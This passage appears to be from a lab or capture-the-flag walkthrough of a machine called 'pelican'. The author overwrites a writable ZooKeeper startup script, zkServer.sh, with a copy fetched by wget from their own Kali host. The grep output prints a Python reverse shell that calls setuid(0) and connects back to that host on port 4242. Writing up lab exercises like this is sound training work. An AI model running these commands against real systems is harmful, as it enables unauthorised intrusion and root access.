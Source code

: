 ![](./assets/notice-zkserver.png)

There seems to be a shell script (`zkserver.sh`) that runs when we reboot zookeper.

I also know from the cron jobs that user `charles` should have write access to everything under `/opt/zookeeper` and `/opt/exhibitor`. So we'll try setting a reverse shell there just for fun and to see if we learn anything:

```
charles@pelican:/opt/zookeeper/bin$ ls -la
ls -la
total 44
drwxr-xr-x  2 charles charles 4096 Feb 20  2014 .
drwxr-xr-x 12 charles charles 4096 Mar  5 01:06 ..
-rwxr-xr-x  1 charles charles  238 Feb 20  2014 README.txt
-rwxr-xr-x  1 charles charles 1937 Feb 20  2014 zkCleanup.sh
-rwxr-xr-x  1 charles charles 1049 Feb 20  2014 zkCli.cmd
-rwxr-xr-x  1 charles charles 1534 Feb 20  2014 zkCli.sh
-rwxr-xr-x  1 charles charles 1333 Feb 20  2014 zkEnv.cmd
-rwxr-xr-x  1 charles charles 2696 Feb 20  2014 zkEnv.sh
-rwxr-xr-x  1 charles charles 1084 Feb 20  2014 zkServer.cmd
-rwxr-xr-x  1 charles charles 5742 Feb 20  2014 zkServer.sh
```

Let's try reverse shell.

I serve the modified version of the script (which contains a python reverse shell) from my Kali machine, which I get with wget and replace the file in the target server.

```
charles@pelican:/opt/zookeeper/bin$ wget -O zkServer.sh http://192.168.45.199/zkServerBad.sh
<-O zkServer.sh http://192.168.45.199/zkServerBad.sh
--2024-03-05 01:48:33--  http://192.168.45.199/zkServerBad.sh
Connecting to 192.168.45.199:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5789 (5.7K) [text/x-sh]
Saving to: ‘zkServer.sh’

zkServer.sh         100%[===================>]   5.65K  --.-KB/s    in 0s      

2024-03-05 01:48:33 (11.5 MB/s) - ‘zkServer.sh’ saved [5789/5789]
cat zkServer.sh | grep python
python -c 'import socket,os,pty;os.setuid(0);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.199",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```